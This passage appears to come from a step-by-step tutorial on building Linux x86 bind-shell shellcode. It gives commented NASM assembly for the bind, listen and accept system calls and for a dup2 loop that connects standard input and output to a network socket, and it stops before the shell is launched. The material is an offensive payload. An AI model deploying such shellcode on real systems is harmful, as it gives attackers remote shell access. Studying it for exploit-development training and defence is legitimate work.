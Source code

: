 1.3.4) Then, we need to call the "bind" systemcall which will bind to the socket:
```nasm
;This part initialize and call the "bind" systemcall
xor eax, eax                ;Initialize eax to NULL
mov ax, 0x169               ;Move the "bind" systemcall number inside ax
mov ebx, edi                ;Move the return value of "socket" inside ebx 
mov ecx, esp                ;Point ecx to the structure
;Get the structure size
mov edx, ebp
sub edx, esp                ;Use the stack pointers (esp and ebp to calculate the size of the structure)

;C code representation of the systemcall:
; --> bind(sockfd, (struct sockaddr *)&addr, sizeof(addr));
int 0x80            ;Go for it
```

1.3.5) Let's call the "listen" systemcall wich will listen for connections on the socket:
```nasm 
;This part initialize and call the "listen" systemcall
xor eax, eax                ;Initialize eax to NULL
mov ax, 0x16b               ;Move the "listen" systemcall number inside ax
mov ebx, edi                ;Move the return value of "socket" inside ebx
xor ecx, ecx                ;Initialize ecx to NULL

;C code representation of the systemcall:
; --> listen(sockfd, 0);
int 0x80                    ;execute systemcall
```

1.3.6) The "accept" systemcall is used to accept a connection on the socket:
```nasm
;This part initialize and call the "accept" systemcall
xor eax, eax                ;Initialize eax to NULL
mov ax, 0x16c               ;Move the "accept" systemcall number inside ax
mov ebx, edi                ;Move the return value of "socket" inside ebx
xor ecx, ecx                ;Initialize ecx to NULL
xor edx, edx                ;Initialize edx to NULL
xor esi, esi                ;Initialize esi to NULL

;C code representation of the systemcall:
; -- > int connfd = accept(sockfd, NULL, NULL);
int 0x80                    ;Execute systemcall
mov esi, eax                ;Move the return value from the "accept" systemcall into esi
```

1.3.7) This part of the code will use dup2 to redirect the STDIN, STDOUT and STDERR into the socket:
```nasm
;This part redirect the STDIN, STDOUT and STDERR into the socket
mov cl, 3                   ;Initialize cl to 3
dup:
    xor eax, eax            ;Initialize eax to NULL
    mov al, 0x3f            ;Move the "dup2" systemcall number inside al 
    mov ebx, esi            ;Move the return value of "accept" in ebx
    dec cl                  ;Decrement cl to 1

    ;C code representation of the systemcall:
    ;for (int i = 0; i < 3; i++)
    ;{
    ;    dup2(connfd, i);
    ;}
    int 0x80                ;Execute systemcall
    inc cl                  ;Increment cl to 1
    loop dup                ;Loop until cl is equal to 0 (Three times)
```
